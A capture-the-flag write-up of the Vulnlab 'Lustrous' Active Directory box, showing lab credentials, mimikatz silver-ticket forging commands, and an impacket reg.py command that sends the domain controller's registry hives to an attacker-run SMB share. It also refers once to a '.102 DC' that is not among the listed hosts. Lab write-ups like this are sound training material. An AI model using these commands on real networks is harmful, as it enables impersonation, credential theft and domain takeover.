# Lustrous — Vulnlab (write-up)

**Difficulty:** Hard
**Box:** Lustrous (Vulnlab)
**Author:** dsec
**Date:** 2025-04-20

---

## TL;DR

### Two-machine chain. Enumerated users and found `ben.cox:Trinity1`. Decrypted a DPAPI credential blob to get local admin creds. Accessed an internal web app to find `svc_web` and `tony.ward` passwords. Silver ticket attack using svc_web's password to impersonate tony.ward (Backup Admins group), then used `reg.py` to back up registry hives for DA.
---
## Target info

- Host 1: `.37` (member server)
- Host 2: `.38` (DC - `LusDC.lustrous.vl`)
- Domain: `lustrous.vl`
---
## Enumeration

.37:






.38 (DC):










Found `ben.cox:Trinity1`.





None ASREPRoastable.

---
## Foothold





DPAPI credential blob:

`01000000d08c9ddf0115d1118c7a00c04fc297eb01000000d4ecf9dfb12aed4eab72b909047c4e560000000002000000000003660000c000000010000000d5ad4244981a04676e2b522e24a5e8000000000004800000a00000001000000072cd97a471d9d6379c6d8563145c9c0e48000000f31b15696fdcdfdedc9d50e1f4b83dda7f36bde64dcfb8dfe8e6d4ec059cfc3cc87fa7d7898bf28cb02352514f31ed2fb44ec44b40ef196b143cfb28ac7eff5f85c131798cb77da914000000e43aa04d2437278439a9f7f4b812ad3776345367`



Got local admin: `administrator:XZ9i=bgA8KhRP.f=jr**Qgd3Qh@n9dRF`

---
## DA path





Tony.Ward is in the Backup Admins group -- owning this user is an easy path to DA.





Found `svc_web` password: `iydgTvmujl6f`

RDP into the .102 DC with local admin creds, accessed `lusdc.lustrous.vl` through Edge using `ben.cox` creds:



Clicking notes for `tony.ward` revealed: `tony.ward:U_cPVQqEI50i1X`

---
## Silver ticket attack

Since we own the svc_web service account credentials, we can forge a TGS (silver ticket). The service trusts any ticket encrypted with its key, so we can claim to be any user.

Got domain SID with lookupsid:



`S-1-5-21-2355092754-1584501958-1513963426`

Generated NTLM hash from svc_web password:



`E67AF8B3D78DF5A02EB0D57B6CB60717`

Forged silver ticket as Administrator:

```
kerberos::golden /sid:S-1-5-21-2355092754-1584501958-1513963426 /domain:lustrous.vl /ptt /id:500 /target:LusDC.lustrous.vl /service:HTTP /rc4:E67AF8B3D78DF5A02EB0D57B6CB60717 /user:administrator
```



Then forged as tony.ward (RID 1114):

```
kerberos::golden /sid:S-1-5-21-2355092754-1584501958-1513963426 /domain:lustrous.vl /ptt /id:1114 /target:LusDC.lustrous.vl /service:HTTP /rc4:E67AF8B3D78DF5A02EB0D57B6CB60717 /user:tony.ward
```





Confirmed `tony.ward:U_cPVQqEI50i1X`.

---
## Registry backup for DA

Started an SMB share for exfiltration:

```bash
impacket-smbserver -smb2support "share" .
```



Backed up registry hives:

```bash
reg.py tony.ward@LusDC.lustrous.vl backup -o '\\10.8.2.206\share'
```



Had to run the command twice for it to succeed.

---
## Lessons & takeaways

- DPAPI credential blobs on compromised hosts can contain high-value plaintext credentials
- Silver ticket attacks work when you own a service account -- you can impersonate any user to that service
- Backup Admins group members can extract registry hives (SAM/SYSTEM/SECURITY) remotely
- Internal web applications often store credentials in notes or configuration pages
---
